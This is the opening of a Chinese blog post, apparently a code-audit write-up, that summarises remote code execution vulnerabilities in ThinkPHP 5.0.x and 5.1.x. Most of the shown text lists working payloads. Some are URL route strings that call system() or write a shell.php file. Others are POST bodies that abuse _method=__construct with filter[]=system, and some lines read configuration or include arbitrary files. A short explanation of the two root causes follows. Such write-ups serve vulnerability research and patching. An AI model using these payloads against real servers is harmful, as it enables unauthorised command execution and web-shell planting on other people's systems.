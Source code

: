 ```yaml
---
title: "Thinkphp5 RCE总结"
date: 2019-11-27T21:39:54+08:00
draft: false
tags: ['thinkphp','代码审计']
categories: ['代码审计']
series:
- ThinkPHP
---
```


thinkphp5 rce 分析总结



thinkphp5最出名的就是rce，我先总结rce，rce有两个大版本的分别

1. ThinkPHP 5.0-5.0.24
2. ThinkPHP 5.1.0-5.1.30

因为漏洞触发点和版本的不同，导致payload分为多种，其中一些payload需要取决于debug选项
比如直接访问路由触发的

5.1.x ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
5.0.x ：
```
?s=index/think\config/get&name=database.username // 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```
还有一种
```
http://php.local/thinkphp5.0.5/public/index.php?s=index
post
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&filter[]=system&method=GET&get[]=whoami

# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
可以看到payload分为两种类型，一种是因为Request类的`method`和`__construct`方法造成的，另一种是因为Request类在兼容模式下获取的控制器没有进行合法校验，我们下面分两种来讲，然后会将thinkphp5的每个小版本都测试下找下可用的payload。
